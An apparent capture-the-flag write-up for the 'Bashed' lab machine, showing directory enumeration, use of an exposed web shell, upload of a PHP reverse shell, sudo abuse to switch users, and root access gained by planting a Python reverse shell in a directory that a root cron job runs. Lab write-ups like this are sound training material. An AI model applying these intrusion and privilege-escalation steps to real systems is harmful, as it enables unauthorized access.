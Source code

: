 # recon
- OS: linux TTL 63
- Apache/2.4.18 (Ubuntu) Server at bashed.htb Port 80

- gobuster
```
/about.html (Status: 200)
/config.php (Status: 200)
/contact.html (Status: 200)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/scroll.html (Status: 200)
/server-status (Status: 403)
/single.html (Status: 200)
/uploads (Status: 301)
```
I try to visite `/uploads/phpbash.php` and hope to get a web shell since one of the picture show that directory but Unfortunately.

Anywat after some tries, I found web shell at `/dev` which `www-data` priv I did like the shell that much so I decided to upload `php-reverse-shell.php` (installed by defualt on ur kali) on `/uploads` and gain reverse shell instead.

# foot hold
grab user flag and more recon
```
www-data@bashed:/$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
so let priv esc to scriptmanager
```
www-data@bashed:/var/www/html/uploads$ sudo -u scriptmanager bash -i
```


# root
```
scriptmanager@bashed:/$ find / -user scriptmanager 2> /dev/null
find / -user scriptmanager 2> /dev/null
/scripts
.
.
```
oh we own /scripts let go check
```
scriptmanager@bashed:~$ ls -ls /scripts
ls -ls /scripts
total 12
4 -rw-r--r-- 1 scriptmanager scriptmanager 214 Sep 22 12:17 test.py
4 -rw-r--r-- 1 root          root           18 Sep 21 15:03 test.txt
```
if you keep `ls -la` you will notice that the file modify time change each min. The plan is put a python reverse shell script. 

you can also make sure about the automate jobs by a tool call `pspy` if you run the tool you will se that
```
2020/09/22 13:15:38 CMD: UID=0    PID=15974  | python test.py 
```
this show us the uid=0 which is root is executing `python test.py`. I also try to create a dummy test2.py and keep monitoring `pspy`. The result show that root user excute any `.py` in `/scripts` directory. 


Since nano dosnt works I decided to create python reverse shell on my kali and use wget to get it to `/script`. Now open netcat and listen to the given port. **BOOM!**
```
root@bashed:/scripts# ls
```
